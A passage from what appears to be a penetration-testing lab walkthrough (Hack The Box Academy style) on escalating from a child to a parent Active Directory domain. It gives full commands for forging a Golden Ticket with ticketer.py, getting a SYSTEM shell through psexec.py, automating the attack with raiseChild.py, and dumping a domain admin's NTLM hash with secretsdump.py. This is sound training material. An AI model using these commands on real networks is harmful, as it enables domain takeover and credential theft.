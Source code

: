 Example:

```bash
ticketer.py -nthash 9d765b482771505cbe97411065964d5f -domain LOGISTICS.INLANEFREIGHT.LOCAL -domain-sid S-1-5-21-2806153819-209893948-922872689 -extra-sid S-1-5-21-3842939050-3880317879-2865463114-519 hacker
```

This will create a `hacker.ccache` file containing the Golden Ticket.

#### **6. Set KRB5CCNAME (to use the Golden Ticket)**

Set the environment variable `KRB5CCNAME` to use the Golden Ticket file:

```bash
export KRB5CCNAME=hacker.ccache
```

#### **7. Authenticate to Parent Domain using PSEXEC (via `psexec.py`)**

Authenticate using the Golden Ticket and attempt to get a SYSTEM shell on the parent domain DC:

```bash
psexec.py <child-domain>/<target-user>@<parent-dc-fqdn> -k -no-pass -target-ip <parent-dc-ip>
```

Example:

```bash
psexec.py LOGISTICS.INLANEFREIGHT.LOCAL/hacker@academy-ea-dc01.inlanefreight.local -k -no-pass -target-ip 172.16.5.5
```

#### **8. (Optional) Automate with `raiseChild.py`**

Use `raiseChild.py` to automatically perform the entire attack (create Golden Ticket, authenticate, execute PSEXEC):

```bash
raiseChild.py -target-exec <parent-dc-ip> <child-domain>/<user>
```

Example:

```bash
raiseChild.py -target-exec 172.16.5.5 LOGISTICS.INLANEFREIGHT.LOCAL/htb-student_adm
```

#### **9. Extract NTLM Hash for Domain Admin**

Once you gain access to the parent domain, extract the NTLM hash for the `Domain Admin` (e.g., `bross`):

```bash
secretsdump.py <parent-domain>/<user>@<parent-dc-ip> -just-dc-user <parent-domain>/bross
```

Example:

```bash
secretsdump.py INLANEFREIGHT.LOCAL/htb-student_adm@172.16.5.5 -just-dc-user INLANEFREIGHT/bross
```

---